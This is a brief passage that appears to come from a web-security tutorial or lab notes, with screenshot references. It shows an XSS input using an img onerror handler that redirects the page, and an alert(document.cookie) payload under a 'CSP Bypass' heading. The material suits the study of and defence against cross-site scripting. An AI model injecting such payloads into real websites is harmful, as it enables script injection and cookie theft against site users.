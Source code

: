 output

![alt text](images/photo_22.png)

input

```bash
<img src=x onerror='window.location.href="http://www.w3schools.com";'/>
```

![alt text](images/photo_23.png)

### Content Security Policy (CSP) Bypass

input

```js
alert(document.cookie);
```
